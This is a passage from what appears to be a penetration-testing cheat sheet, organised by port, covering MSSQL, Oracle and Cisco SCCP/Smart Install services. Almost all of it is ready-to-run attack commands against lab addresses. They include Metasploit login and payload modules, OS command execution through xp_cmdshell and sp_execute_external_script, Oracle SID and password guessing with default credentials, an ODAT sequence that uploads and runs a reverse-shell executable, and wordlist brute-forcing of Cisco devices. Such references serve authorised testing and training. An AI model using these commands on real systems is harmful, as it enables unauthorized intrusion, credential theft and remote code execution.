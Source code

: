 <br>

### 1433 - MSSQL
---

```bash
nmap -p 1433 -sU --script=ms-sql-info.nse 10.11.1.111
use auxiliary/scanner/mssql/mssql_ping
use auxiliary/scanner/mssql/mssql_login
use exploit/windows/mssql/mssql_payload
sqsh -S 10.11.1.111 -U sa
    xp_cmdshell 'date'
      go


EXEC sp_execute_external_script @language = N'Python', @script = N'import os;os.system("whoami")'

https://blog.netspi.com/hacking-sql-server-procedures-part-4-enumerating-domain-accounts/
```

<br>

### 1521 - Oracle
---

```bash
oscanner -s 10.11.1.111 -P 1521
tnscmd10g version -h 10.11.1.111
tnscmd10g status -h 10.11.1.111
nmap -p 1521 -A 10.11.1.111
nmap -p 1521 --script=oracle-tns-version,oracle-sid-brute,oracle-brute
MSF: good modules under auxiliary/admin/oracle and scanner/oracle

# https://github.com/quentinhardy/odat
./odat-libc2.5-i686 all -s 10.11.1.111 -p 1521
./odat-libc2.5-i686 sidguesser -s 10.11.1.111 -p 1521
./odat-libc2.5-i686 passwordguesser -s 10.11.1.111 -p 1521 -d XE

# Upload reverse shell with ODAT:
./odat-libc2.5-i686 utlfile -s 10.11.1.111 -p 1521 -U scott -P tiger -d XE --sysdba --putFile c:/ shell.exe /root/shell.exe

# and run it:
./odat-libc2.5-i686 externaltable -s 10.11.1.111 -p 1521 -U scott -P tiger -d XE --sysdba --exec c:/ shell.exe
```

<br>

### 2000 - Cisco sccp
---

```bash
# cisco-audit-tool
CAT -h ip -p 2000 -w /usr/share/wordlists/rockyou.txt 

# cisco-smart-install
https://github.com/Sab0tag3d/SIET/
sudo python siet.py -g -i 192.168.0.1
```

